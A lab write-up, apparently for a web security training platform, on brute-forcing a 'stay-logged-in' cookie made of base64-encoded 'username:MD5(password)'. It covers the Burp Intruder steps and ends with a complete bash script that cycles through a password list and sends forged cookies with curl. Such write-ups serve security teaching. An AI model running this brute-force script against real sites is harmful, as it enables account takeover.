 # Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his `My account` page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Wordlists: Candidate passwords
---

# Session Cookie Analysis and Attack Execution

## 1. Stay logged in Option
- When logging in and selecting the "Keep me logged in" option, the processing appears as follows:  
  ![image](https://github.com/user-attachments/assets/26704adc-199f-4482-86e1-a621abeb964f)

---

## 2. Decoding the Cookie
- We know the cookie is encoded in `base64`. After decoding, we obtain the following structure:  
  `wiener:<hash md5>`  

- The value `51dc30ddc473d43a6011e9ebba6ca770` contains 32 hexadecimal characters, suggesting it is an `MD5 hash`:  
  ![image](https://github.com/user-attachments/assets/9062361d-8f9b-4183-8b59-c7c0fb02bbe8)

---

## 3. Sending the Request to Intruder
- We send the request to the Intruder tool, ensuring the session cookie is empty.  
- Then, we add `payload processing` rules as follows:
  1. Compute the MD5 hash of the password.
  2. Add the prefix `carlos` to the hash.
  3. Encode the resulting string in `base64`:  
  ![image](https://github.com/user-attachments/assets/3327d4f6-8126-46ce-afb7-ad0fbd66084a)

---

## 4. Executing the Attack
- Finally, we execute the attack to identify valid payloads:  
  ![image](https://github.com/user-attachments/assets/4b9e1439-eab0-4804-9174-5920037396d3)  
  ![image](https://github.com/user-attachments/assets/6b55bcb2-2815-45ad-abeb-c000d5831169)



We can perform the same attack using a `bash` script:
```bash
#!/bin/bash

url="https://0a1000a3041a58d888ed1b57003c00e2.web-security-academy.net/my-account"
password_file="passwords.txt"
user="carlos"

if [[ ! -f $password_file ]]; then
    echo "Error: The file '$password_file' does not exist."
    exit 1
fi

generate_encoded_value() {
    local password=$1
    local md5_hash
    local encoded_value

    md5_hash=$(echo -n "$password" | md5sum | awk '{print $1}')
    encoded_value=$(echo -n "$user:$md5_hash" | base64)
    echo "$encoded_value"
}

headers=(
    -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
    -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8"
    -H "Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3"
    -H "Accept-Encoding: gzip, deflate, br"
    -H "Referer: https://0a7f00c6031e1f6f8277ec00004a002d.web-security-academy.net/login"
    -H "Upgrade-Insecure-Requests: 1"
    -H "Sec-Fetch-Dest: document"
    -H "Sec-Fetch-Mode: navigate"
    -H "Sec-Fetch-Site: same-origin"
    -H "Sec-Fetch-User: ?1"
    -H "Priority: u=0, i"
    -H "Te: trailers"
)

while read -r password; do
    # Ignorar líneas vacías
    [[ -z "$password" ]] && continue

    # Generar cookie stay-logged-in
    encoded_value=$(generate_encoded_value "$password")

    # Enviar la solicitud con curl
    response=$(curl -s -w "%{http_code}" -o response.html "${headers[@]}" \
        -b "stay-logged-in=$encoded_value; Session=" \
        -G "$url" --data-urlencode "id=$user")

    # Verificar si la respuesta contiene "Bienvenido"
    if grep -q "Bienvenido" response.html || [[ $response -eq 200 ]]; then
        echo -e "\nPassword: $password"
        echo "Cookie stay-logged-in: $encoded_value"
        break
    fi
done < "$password_file"

rm -f response.html
```

![image](https://github.com/user-attachments/assets/85a88dd5-f401-461b-ac25-50e923e6b576)


